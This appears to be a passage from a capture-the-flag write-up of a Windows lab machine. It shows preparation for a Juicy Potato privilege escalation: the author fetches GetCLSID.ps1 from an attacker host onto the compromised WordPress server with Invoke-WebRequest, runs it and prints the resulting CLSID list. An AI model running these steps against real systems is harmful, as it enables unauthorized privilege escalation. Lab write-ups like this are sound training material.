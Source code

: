 We need the CLSID (Class ID) for the server. The options are:

- Use the default value in Juicy Potato
- Look up a [list of Windows CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) from the Juicy Potato authors
- Run a PowerShell script to list CLSIDs

I choose the last option, for some fun! The authors provide the script, so I downloaded it to my machine, and transferred it to the target.

```none
wget https://github.com/ohpe/juicy-potato/raw/master/CLSID/GetCLSID.ps1
```

And download the script on the target.

```none
Invoke-WebRequest -Uri http://10.10.14.51:8000/GetCLSID.ps1 -OutFile GetCLSID.ps1
```

Then run it.

```none
.\GetCLSID.ps1
```

The script is kind of unusual, as it creates a folder of the target system, then dumps `.csv` and `.list` files containing the CLSIDs. In this case, it created a folder named `Windows_Server_2016_Standard`. Looking at the file contents.

```none
PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen\Windows_Server_2016_Standard> type CLSID.list
type CLSID.list
{03ca98d6-ff5d-49b8-abc6-03dd84127020}
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700}
{8C482DCE-2644-4419-AEFF-189219F916B9}
{8B4B437E-4CAB-4e83-89F6-7F9F7DF414EA}
{0A886F29-465A-4aea-8B8E-BE926BFAE83E}
{1BE1F766-5536-11D1-B726-00C04FB926AF}
{35b1d3bb-2d4e-4a7c-9af0-f2f677af7c30}
{375ff002-dd27-11d9-8f9c-0002b3988e81}
{D3DCB472-7261-43ce-924B-0704BD730D5F}
{145B4335-FE2A-4927-A040-7C35AD3180EF}
{E0F55444-C140-4EF4-BDA3-621554EDB573}
{5C03E1B1-EB13-4DF1-8943-2FE8E7D5F309}
{000C101C-0000-0000-C000-000000000046}
{BA126AD8-2166-11D1-B1D0-00805FC1270E}
{A47979D2-C419-11D9-A5B4-001185AD2B89}
{854A20FB-2D44-457D-992F-EF13785D2B51}
{F0FF8EBB-F14D-4369-BD2E-D84FBF6122D6}
{B6C292BC-7C88-41EE-8B54-8EC92617E599}
{A1F4E726-8CF1-11D1-BF92-0060081ED811}
{F9A874B6-F8A8-4D73-B5A8-AB610816828B}
{4661626C-9F41-40A9-B3F5-5580E80CB347}
{3c6859ce-230b-48a4-be6c-932c0c202048}
{0fb40f0d-1021-4022-8da0-aab0588dfc8b}
{BFE18E9C-6D87-4450-B37C-E02F0B373803}
{7D1933CB-86F6-4A98-8628-01BE94C9A575}
{02ECA72E-27DA-40E1-BDB1-4423CE649AD9}
{97061DF1-33AA-4B30-9A92-647546D943F3}
{9A3E1311-23F8-42DC-815F-DDBC763D50BB}
{84C22490-C68A-4492-B3A6-3B7CB17FA122}
{119817C9-666D-4053-AEDA-627D0E25CCEF}
{8BC3F05E-D86B-11D0-A075-00C04FB68820}
{30766BD2-EA1C-4F28-BF27-0B44E2F68DB7}
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```
